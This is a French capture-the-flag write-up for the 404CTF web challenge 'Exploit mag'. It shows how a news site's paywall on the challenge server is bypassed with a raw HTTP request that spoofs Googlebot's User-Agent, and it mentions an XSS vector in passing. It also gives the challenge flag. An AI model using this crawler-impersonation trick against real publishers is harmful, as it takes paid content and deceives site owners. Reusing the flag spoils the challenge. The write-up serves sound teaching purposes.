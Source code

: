 # Exploit mag
## Enoncé
> Alors que la compétition bat son plein, votre entraîneur vient à votre rencontre :
>> Hey ! Je ne sais pas si tu as vu, mais il parait qu'un magazine en ligne a publié des trucs "intéressants" sur la compétition. C'est un ami à moi qui m'a envoyé le lien.
> En allant jeter un œil, rien ne semble différencier ce magazine d'un autre site sportif aux titres racoleurs... Mais l'un des articles attire votre attention. Ce serait bien de pouvoir y accéder, au moins pour savoir ce qu'ont appris les athlètes qui l'ont lu. Mais pas question de payer, il doit bien exister un autre moyen...

Auteur: **@Artamis**
 
Connexion: `https://exploit-mag.challenges.404ctf.fr`

## Analyse

On arrive sur un site de presse, où les articles sont disponibles entièrement uniquement au prix d'un abonnement.

Il y a deux liens qui pourraient nous intéresser: `https://exploit-mag.challenges.404ctf.fr/news/` et `https://exploit-mag.challenges.404ctf.fr/pricing/`.

Comme il n'y a pas création de compte, ou de cookies relié à notre connexion, il est intéressant de se demander comment le site effectue la vérification sur notre légitimité à voir ou non les articles. 

Il va peut être nous falloir implémenter un cookie à un moment ou à un autre.

### `/pricing`

<p align="center">
    <img src="../../images/404CTFWeb3.png" alt="img1" style="width:40%;">
</p>

Le seul moyen d'accéder aux articles serait d'être premium, mais en observant le code source de la page, on apprend que le bouton "C'est parti !" n'effectue aucune autre action que de nous rediriger vers la page `/news`. Nous avons aucun indice sur ce potentiel cookie de légitimité.

### `/news`

En arrivant sur un article quelconque on tombe sur cette barrière de paiement:

<p align="center">
    <img src="../../images/404CTFWeb4.png" alt="img1" style="width:40%;">
</p>

Seulement, lorsque l'on appuie sur le captcha résultat, rien ne se passe, il tourne en boucle.

Après analyse de son code source, les injections XSS sont possibles par la variable onclick, seulement elles ne mènent à rien.

Avec un peu plus d'observation on apprend par l'id d'un élément que ce genre de barrières s'appellent des paywalls.

Avec un peu de documentation sur internet, on apprend que certains sites laissent passer les bots crawlers de google pour obtenir un meilleur référencement, et il est possible d'usurper leur identité en utilisant leur User-Agent associé.

## Exploitation

L'article nous intéressant le plus est évidemment celui-ci `/dataleak-404-ctf`, mais nous aurions pu tous les faire;

On reproduit la requête d'obtention de l'article en changeant l'User-Agent par celui d'un Google Bot:
```http
GET /news/dataleak-404-ctf/ HTTP/1.1
Host: exploit-mag.challenges.404ctf.fr
Sec-Ch-Ua: "Not-A.Brand";v="99", "Chromium";v="124"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
Connection: close
```

Et on obtient directement l'article complet, et le flag 

Flag: **404CTF{p4yw4lL_bYpa55_1s_dAnG3r0us}**